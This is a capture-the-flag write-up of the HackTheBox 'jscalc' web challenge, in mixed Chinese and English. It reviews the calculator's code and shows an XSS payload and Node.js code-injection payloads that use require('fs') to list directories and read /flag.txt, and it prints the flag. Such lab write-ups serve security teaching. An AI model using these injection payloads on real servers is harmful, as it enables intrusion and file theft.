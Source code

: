 ```yaml
---
title: 'HackTheBox: jscalc'
disqus: hackmd
---
```


HackTheBox: jscalc
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/jscalc

### Initial Enumeration

●Start Machine: 
http://94.237.57.59:46780/

![image](https://hackmd.io/_uploads/rkVED31W0.png)

(Calculate)
![image](https://hackmd.io/_uploads/rk8YO6kW0.png)

![image](https://hackmd.io/_uploads/SJgyca1-0.png)


## Solution

### 1.Code Review
● main.js
```javascript=
let formula = document.getElementById('formula');
let form    = document.getElementById('form');
let output  = document.getElementById('output');

const flash = (message, level) => {
    alerts.innerHTML += `
        <div class="alert alert-${level}" role="alert">
            <button type="button" id="closeAlert" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
            <strong>${message}</strong>
        </div>
    `;
};

form.addEventListener('submit', e => {
	e.preventDefault();

	fetch('/api/calculate', {
		method: 'POST',
		body: JSON.stringify({
			formula: formula.value
		}),
		headers: {'Content-Type': 'application/json'}
	}).then(resp => {
		return resp.json();
	}).then(resp => {
        result = resp.message.toString();

		if (result.includes('wrong')) {
            flash(result, 'danger');

            setTimeout(() => {
                document.getElementById('closeAlert').click();
            }, 2000);

            return;
        }
        
        flash(result, 'success');

        setTimeout(() => {
            document.getElementById('closeAlert').click();
        }, 2000);
            
        output.value = result;
        
    })
});

```
> "formula":"100*10-3+340"
> 用JSON格式 POST 到 fetch /api/calculate
> Content-Type: application/json

● /routes/index.js
```javascript=
const path       = require('path');
const express    = require('express');
const router     = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

router.get('/', (req, res) => {
	return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}

	return res.send(response('Missing parameters'));
})

module.exports = router;

```
> GET / 顯示index.html
> POST /api/calculate，如果存在formula，則使用Calculator.calculate運算

### 2.Attempt
#### 2.1 XSS
:::info
main.js 沒有對輸入的payload進行過濾，嘗試XSS
:::
```payload
55688+'<img src=chw onerror="alert(55688)">'
```

![image](https://hackmd.io/_uploads/rkjssa1Z0.png)

#### 2.2 JSON Object
package.json
```json=
{
	"name": "jscalc",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"nodeVersion": "v8.12.0",
	"scripts": {
		"start": "node index.js"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"body-parser": "^1.19.0",
		"express": "^4.17.1"
	}
}



```
:::info
從package.json可以得知使用Node.js
嘗試在JSON格式中注入Node.js指令
:::

```payload
process.cwd()
```
![image](https://hackmd.io/_uploads/SyNXiCJZA.png)
:::warning
● process.cwd() 是 Node.js 中的一個函式，用於獲取當前工作目錄（Current Working Directory）的路徑。所謂當前工作目錄是指 Node.js 進程當前正在運行的目錄。
:::
> 成功得到Server回應

### 3. Node.js in JSON
#### 3.1 require('fs')
```payload
require('fs')
```
![image](https://hackmd.io/_uploads/SyyZLCkbA.png)
:::warning
● require('fs') 是 Node.js 中用於引入文件系統模組的標準語法。文件系統模組（fs）允許 Node.js 應用程式直接與文件系統進行交互，包括讀取檔案、寫入檔案、刪除檔案等操作。
:::
#### 3.2 Browse /app
前面透過process.cwd()當前目錄在/app，利用readdirSync讀取當前目錄下內容
```payload
require('fs').readdirSync('/app').toString()
```
![image](https://hackmd.io/_uploads/SkHP2Cy-R.png)

#### 3.3 Find Flag.txt
```payload
require('fs').readdirSync('../').toString()
```
![image](https://hackmd.io/_uploads/BJlT2R1ZR.png)

### 4. Get FLAG
```payload
require('fs').readFileSync("/flag.txt").toString()
```
:::warning
● require('fs').readFileSync() 是 Node.js 中用於同步讀取檔案的函式。它的作用是以同步的方式從檔案系統中讀取檔案的內容，並將其返回為字串或二進位緩衝區。
:::
![image](https://hackmd.io/_uploads/S1VoR0k-0.png)

> **FLAG: HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}**

###### tags: `Web` `CTF` `Node.js`

